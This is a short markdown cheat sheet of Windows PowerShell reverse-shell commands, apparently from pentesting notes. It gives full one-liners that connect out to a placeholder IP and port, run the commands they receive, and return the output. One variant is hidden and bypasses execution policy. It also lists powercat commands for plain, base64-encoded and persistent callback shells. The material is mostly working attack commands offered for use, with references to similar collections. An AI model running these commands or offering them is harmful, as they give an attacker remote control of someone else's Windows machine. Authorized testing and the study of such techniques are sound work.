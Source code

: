 # Powershell

## 01 - Regular

```powershell
PS C:\> $client = New-Object System.Net.Sockets.TCPClient("<IP>", <PORT>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()

C:\> powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP>", <PORT>);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | % {0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()
```

## 02 - Powercat

Generate reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -g
```

Generate base64 encoded reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -ge
```

Persist callback shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -rep
```

---
## References

- [Hacktricks: Shell Windows](https://book.hacktricks.xyz/shells/shells/windows)

- [Powercat](https://github.com/besimorhino/powercat)

- [Ironhackers: Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)

- [Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)
